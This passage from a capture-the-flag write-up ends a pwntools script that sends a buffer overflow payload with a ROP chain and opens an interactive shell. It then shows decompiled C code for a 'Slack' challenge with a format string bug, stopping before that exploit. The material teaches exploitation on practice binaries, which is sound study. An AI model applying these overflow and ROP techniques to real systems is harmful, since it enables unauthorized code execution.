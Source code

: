 ```py

    rop = ROP(exe)
    rop.raw(0x40130B)

    payload = b"A" * (24 + 8) + p64(exe.bss(1000)) + rop.chain()
    io.sendlineafter(b"Amount: ", str(len(payload)).encode())
    io.sendlineafter(b"Contents: ", payload)
    io.interactive()


if __name__ == "__main__":
    main()

```

## Slack

Yet another format string vulnerability... but I swear this is kinda interesting to solve actually (and so will be the next one too)!

We are given a binary with the following main:

```c
void main(void) {
  __gid_t __rgid;
  int iVar1;
  time_t t2;
  long in_FS_OFFSET;
  int i;
  time_t t1;
  tm *lt;
  char time_buf [32];
  char buf [40];
  long canary;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,NULL);
  setbuf(stdin,NULL);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("Welcome to slack (not to be confused with the popular chat service Slack)!");
  t1 = time(NULL);
  lt = localtime(&t1);
  t2 = time(NULL);
  srand((uint)t2);
  for (i = 0; i < 3; i = i + 1) {
    strftime(time_buf,0x1a,"%Y-%m-%d %H:%M:%S",lt);
    iVar1 = rand();
    printf("%s -- slack Bot:  %s\n",time_buf,messages[iVar1 % 8]);
    printf("Your message (to increase character limit, pay $99 to upgrade to Professional): ");
    fgets(buf,0xe,stdin);
    lt = localtime(&t1);
    strftime(time_buf,0x1a,"%Y-%m-%d %H:%M:%S",lt);
    printf("%s -- You: ",time_buf);
    printf(buf);
    putchar(10);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```